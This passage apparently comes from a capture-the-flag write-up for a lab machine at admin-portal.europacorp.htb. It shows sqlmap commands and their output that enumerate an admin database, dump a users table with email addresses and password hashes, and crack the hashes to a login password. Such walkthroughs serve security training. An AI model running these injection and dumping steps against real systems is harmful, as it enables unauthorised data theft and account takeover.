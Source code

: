     [06:57:27] [INFO] fetched data logged to text files under '/root/.sqlmap/output/admin-portal.europacorp.htb'



Now list the tables in the admin DB:



    root@kali# sqlmap -r login.request --force-ssl --batch -D admin --tables
    ...[snip]...
    [06:58:50] [INFO] the back-end DBMS is MySQL
    back-end DBMS: MySQL >= 5.6
    [06:58:50] [INFO] fetching tables for database: 'admin'
    [06:58:50] [INFO] retrieved: 'users'
    Database: admin
    [1 table]
    +-------+
    | users |
    +-------+

    [06:58:50] [INFO] fetched data logged to text files under '/root/.sqlmap/output/admin-portal.europacorp.htb'



I'll dump that table:



    root@kali# sqlmap -r login.request --force-ssl --batch -D admin -T users --dump
    ...[snip]...
    Database: admin
    Table: users
    [2 entries]
    +----+----------------------+--------+----------------------------------+---------------+
    | id | email                | active | password                         | username      |
    +----+----------------------+--------+----------------------------------+---------------+
    | 1  | admin@europacorp.htb | 1      | 2b6d315337f18617ba18922c0b9597ff | administrator |
    | 2  | john@europacorp.htb  | 1      | 2b6d315337f18617ba18922c0b9597ff | john          |
    +----+----------------------+--------+----------------------------------+---------------+

    [07:00:20] [INFO] table 'admin.users' dumped to CSV file '/root/.sqlmap/output/admin-portal.europacorp.htb/dump/admin/users.csv'
    [07:00:20] [INFO] fetched data logged to text files under '/root/.sqlmap/output/admin-portal.europacorp.htb'



[hashes.org](https://hashes.org/) will show this cracks to
"SuperSecretPassword!", and now I can log in as either admin or john.

### RCE in preg_replace()

#### Enumeration
